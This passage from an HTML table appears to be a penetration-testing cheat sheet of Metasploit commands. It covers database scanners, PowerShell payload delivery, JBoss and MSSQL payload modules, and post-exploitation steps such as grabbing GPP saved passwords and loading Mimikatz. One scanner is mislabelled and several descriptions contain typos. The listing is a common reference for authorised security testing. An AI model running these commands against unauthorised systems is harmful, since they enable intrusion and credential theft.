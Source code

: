  </tr> 
 <tr> 
 <td>use auxiliary/scanner/mysql/mysql_version</td> 
 <td>Metasploit MSSQL Version Scanner</td> 
 </tr> 
 <tr> 
 <td>use auxiliary/scanner/oracle/oracle_login</td> 
 <td>Metasploit Oracle Login Module</td> 
 </tr> 
 </tbody> 
 </table> 
 <h3>Metasploit Powershell Modules</h3> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>use exploit/multi/script/web_delivery</td> 
 <td>Metasploit powershell payload delivery module</td> 
 </tr> 
 <tr> 
 <td>post/windows/manage/powershell/exec_powershell</td> 
 <td>Metasploit upload and run powershell script through a session</td> 
 </tr> 
 <tr> 
 <td>use exploit/multi/http/jboss_maindeployer</td> 
 <td>Metasploit JBOSS deploy</td> 
 </tr> 
 <tr> 
 <td>use exploit/windows/mssql/mssql_payload</td> 
 <td>Metasploit MSSQL payload</td> 
 </tr> 
 </tbody> 
 </table> 
 <h3>Post Exploit Windows Metasploit Modules</h3> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>run post/windows/gather/win_privs</td> 
 <td>Metasploit show privileges of current user</td> 
 </tr> 
 <tr> 
 <td>use post/windows/gather/credentials/gpp</td> 
 <td>Metasploit grab GPP saved passwords</td> 
 </tr> 
 <tr> 
 <td>load mimikatz -&gt; wdigest</td> 
 <td>Metasplit load Mimikatz</td> 
 </tr> 
 <tr> 
 <td>run post/windows/gather/local_admin_search_enum</td> 
 <td>Idenitfy other machines that the supplied domain user has administrative access to</td> 
 </tr> 
 </tbody> 
